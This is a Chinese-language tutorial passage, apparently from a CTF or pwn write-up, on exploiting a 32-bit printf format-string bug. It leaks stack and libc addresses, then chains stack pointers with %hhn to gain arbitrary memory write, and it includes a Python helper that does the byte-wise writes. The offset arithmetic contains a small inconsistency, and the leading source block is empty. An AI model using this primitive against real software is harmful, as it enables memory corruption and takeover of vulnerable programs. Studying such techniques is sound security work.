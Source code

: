 ```c
```

首先需要得到当前栈的地址和`libc`的基地址，这些地址可以很轻松的在栈上找到

不难发现栈上有libc地址

```
0xf7e30000 0xf7e31000 rw-p     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
```

```
08:0020│      0xffffd050 —▸ 0xf7e30000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
```

可知`esp+0x18`存放了栈地址，`esp+0x20`存放了`libc`的地址，根据32位栈溢出的公式可以得知

```
esp+0x18 : 0x18 / 4 = 8
esp+0x20 : 0x20 / 4 = 8
```

可以得到分别是第6个参数和第8个参数，直接传入`%6$p%8$p`即可得到栈地址和`libc`地址

**printf**成链攻击的缺点就是需要很多次**printf**，但是如果你有任意地址读写权限后，相信做到这一点也并非难事 

这里主要需要解决的就是如何将要改写的地址放在栈上。实现任意地址写需要依赖栈上存在一个链式结构

```
0xffffd048->0xffffd068->0xffffd098
```

这三个地址都在栈上，我们就可以利用`printf`的`%n`对不同链层的数据进行修改，从而使得这条数据链可以指向任意地址 

下图是一个简单的栈地址空间图，`offset`表示格式化的参数位置。通过第`offset0`个参数，利用`%hhn`可以控制`address1`的最低位，再通过第`offset1`个参数，利用`%hhn`可以写`address2`的最低位；然后通过`offset0`参数，利用`%hhn`修改`address1`的最低位为`原始值+1`，再通过`offset1`参数，利用`%hhn`可以写`address2`的次低位；依次循环即可完全控制`address2`的值，再次利用`address1和address2`的链式结构，即可实现对`address2`地址空间的任意写。对应到上面显示的地址空间

```
address0=0xffffd048,offset0=0x18/4=6;
address1=0xffffd068,offset1=0x38/4=14;
address2=0xffffd098,offset2=0x68/4=26;
```

 ![img](https://p1.ssl.qhimg.com/t01027399ee82efa5dd.png) 

这里我用上面的数据链简单举个例，我们可以利用`0xffffd068—▸ 0xffffd098◂— 0x0`来修改`0xffffd098`地址的数据，但是`printf`的`%n`最大只能修改到`0x2000`，也就是说我们一般只能修改`一个byte`，原本这并没有什么用，但是别忘了，这是一条完整的数据链，我们可以利用`ebp  0xffffd048—▸ 0xffffd068—▸ 0xffffd098`修改`0xffffd068`的低地址数据（`0xffffd098`）的低地址，简单来说就是修改为`0xffffd099`，然后 `0xffffd068 —▸ 0xffffd098◂— 0x0`就会变成`0xffffd068 —▸ 0xffffd099◂— 0x0`，接下来我们就可以利用这条链修改`0xffffd099`地址的值，也就是`第二个byte`，依次类推，我们就能在栈上写任意地址，然后在用栈上的地址进行任意读写。就这样往往复复，造成了这个恶性循环。 

简单来说就是一条栈数据链，前面的链功能是修改我们要任意读写的地址，后面的链的功能则是对前面修改出来的地址进行任意读写。 

下面是地址写代码的实现，首先获取`address1`的最低位的原始值，然后依次写`address2`的各个字节

```
def write_address(off0,off1,target_addr):
    io.sendline("%{}$p".format(off1))
    io.recvuntil("0x")
    addr1 = int(io.recv(8),16)&0xff
    io.recv()
    for i in range(4):
        io.sendline("%{}c%{}$hhn".format(addr1+i,off0))
        io.recv()
        io.sendline("%{}c%{}$hhn".format(target_addr&0xff,off1))
        io.recv()        
        target_addr=target_addr>>8
    io.sendline("%{}c%{}$hhn".format(addr1,off0))
    io.recv()
```
